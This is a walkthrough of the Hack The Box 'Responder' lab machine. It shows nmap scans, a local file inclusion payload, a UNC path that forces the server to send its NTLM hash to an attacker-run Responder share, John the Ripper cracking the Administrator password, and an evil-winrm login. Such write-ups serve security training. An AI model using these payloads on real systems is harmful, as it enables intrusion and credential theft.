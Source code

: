 # Introduction

As part of the learning path for beginners, Hack The Box offers a series of machines under the Starting Point Tier 1 category. These are designed to help new users get familiar with the fundamentals of penetration testing in a guided and progressive way. Among them, **Responder** stands out as the first machine that introduces a slightly more complex challenge. Despite its `Very Easy` difficulty rating, solving it requires chaining together a few steps — making it more structured than previous boxes in the path. It's a great opportunity for newcomers to practice building simple attack chains and start developing a more methodical mindset when approaching machines.

# Information Gathering

## Nmap

The first step was to identify open ports and services running on the target. I started with a full `TCP SYN` scan across all 65,535 ports.

```
sudo nmap -sS -p- -T5 10.129.197.98 

PORT     STATE SERVICE
80/tcp   open  http
5985/tcp open  wsman
```

This revealed two open ports:

- Port 80/tcp – `HTTP`
- Port 5985/tcp – `WSMan (Windows Remote Management)`

Next, I ran a more detailed service and version detection scan on these ports using the default Nmap scripts.

```
sudo nmap -sS -sC -sV -p 80,5985 -T5 10.129.197.98
```

### Port 80 – HTTP

```
80/tcp open  http    Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
```

The web server is running `Apache 2.4.52` on a Windows platform, along with `PHP 8.1.1`. The response headers and the use of the `(Win64)` build clearly suggest that the underlying operating system is Windows.

### Port 5985 – WSMan (WinRM)

```
5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
```

This port is associated with `Windows Remote Management (WinRM)` and confirms that the target is running `Microsoft HTTPAPI 2.0`, further verifying the Windows environment.

### Web Technologies

To enumerate the technologies used by the web server, I utilized `Wappalyzer`, which confirmed the same information gathered with Nmap. This reinforced the initial findings and helped validate the target’s technology stack.

![image.png](attachment:aa033ede-9bc6-490b-9cff-92273de9c4d9:image.png)

## Web Enumeration

After identifying that the web server was running `Apache` on Windows at port `80`, I started by browsing the site manually. While there were no useful results from directory brute-forcing with tools like `gobuster`, one particular feature on the homepage caught my attention: a language selection menu. 

![image.png](attachment:7b4cf157-95e9-49f8-8e88-957fbc9349ea:image.png)

Inspecting the URL when changing the language revealed the following pattern:

```
http://unika.htb/index.php?page=german.html
```

This indicated that the page content was likely being dynamically included based on the `page` parameter — a potential sign of `Local File Inclusion (LFI)`. To test for LFI, I modified the `page` parameter to attempt accessing a local system file.

```
http://unika.htb/index.php?page=../../../../../../../windows/win.ini
```

![image.png](attachment:1077fc4a-a3ac-472b-a02d-1e8d1d3d3afb:image.png)

The file was successfully included and displayed in the browser, confirming the presence of an LFI vulnerability. At this point, I knew that the server was vulnerable to arbitrary file inclusion, and I began exploring ways to leverage this vulnerability to move further into the system.

## Deeper Investigation and NTLM Hash Capture via SMB

After confirming the LFI vulnerability, I initially tried to escalate it to a `Remote File Inclusion (RFI)` attack by hosting a malicious web shell via a Python HTTP server, hoping to include it remotely through the vulnerable `page` parameter. Unfortunately, this approach did not work, as the server was not configured to allow RFI.

While digging deeper, I discovered an important detail about how PHP’s `include()` function behaves on Windows systems when given a UNC path (a network share path like `\\10.10.14.249\fakeshare`). When PHP on a Windows system attempts to include a remote file via a UNC path (e.g., `\\10.10.14.249\fakeshare`), the server tries to authenticate to that remote SMB share using `NTLM` authentication.

This behavior can be abused to capture authentication hashes by setting up a malicious SMB server on the attacker’s machine. The target server will automatically send its credentials when attempting to access the share, allowing an attacker to capture NTLM hashes.

To exploit this, I launched `Responder` on my machine to listen and capture NTLM hashes over SMB.

```
sudo responder -I tun0 -d -w
```

Then, I crafted the URL in the vulnerable web parameter to force the server to connect to my machine’s non-existent SMB share.  

```
http://unika.htb/index.php?page=//10.10.14.249/fakeshare
```

As a result, the target machine tried to access the fake SMB share hosted by `Responder`, sending its NTLM authentication hash, which I successfully captured. Among these hashes was the hash for the `Administrator` user.

![image.png](attachment:5f121b43-3729-4de8-a8c1-3fd8828b84bb:image.png)

## Cracking the Captured NTLM Hash

After capturing the NTLM hash of the Administrator account with `Responder`, I saved it into a file named `hash.txt`. The next step was to crack the hash offline to obtain the cleartext password. I used `John the Ripper` setting the `netntlmv2` format options and the popular `rockyou.txt` wordlist.

```
john --format=netntlmv2 hash.txt --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
badminton        (Administrator)     
1g 0:00:00:00 DONE (2025-05-29 11:31) 33.33g/s 136533p/s 136533c/s 136533C/s slimshady..oooooo
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed. 
```

The cracking process was very fast, and John successfully recovered the password. With the `Administrator` password in hand, I was now ready to proceed with privileged access to the target machine.

## Accessing the Machine and Retrieving the Flag

With the cracked credentials in hand, I used **`evil-winrm`** to log into the target machine via the `WinRM` service running on port `5985`.

```
evil-winrm -u administrator -p 'badminton' -i 10.129.197.98
```

![image.png](attachment:00ff3809-0994-4c28-9bc6-c3392d9dad32:image.png)

Once inside, I used `PowerShell` to search recursively for the flag file.

```
Get-Childitem -Path c:\ -Recurse -Filter "flag*"

    Directory: C:\Users\mike\Desktop

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         3/10/2022   4:50 AM             32 flag.txt
```

I navigated to the directory to verify and access the file.

```
cd ../../mike/Desktop
ls

    Directory: C:\Users\mike\Desktop

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         3/10/2022   4:50 AM             32 flag.txt
```

Finally, I opened the `flag.txt` file to capture the flag and complete the challenge.

## Conclusion

For this walkthrough, I chose to take a different approach than the official Hack The Box methodology. HTB breaks down the `Responder` challenge into eleven guided tasks, leading the user step-by-step with specific questions towards the flag. Instead, I decided to follow a more `black-box methodology`, approaching the machine as a real-world engagement — without hints or a strict path laid out. 

This meant relying on careful enumeration, logical reasoning, and chaining vulnerabilities based on the information uncovered during the whole process. I believe this approach provides a deeper learning experience, helping to develop the skills needed to tackle similar challenges in less guided, more realistic scenarios.

If you’re new to penetration testing, I recommend starting by following the guided HTB path. Then, after some time, come back and try to solve it again on your own to truly sharpen and test your skills.
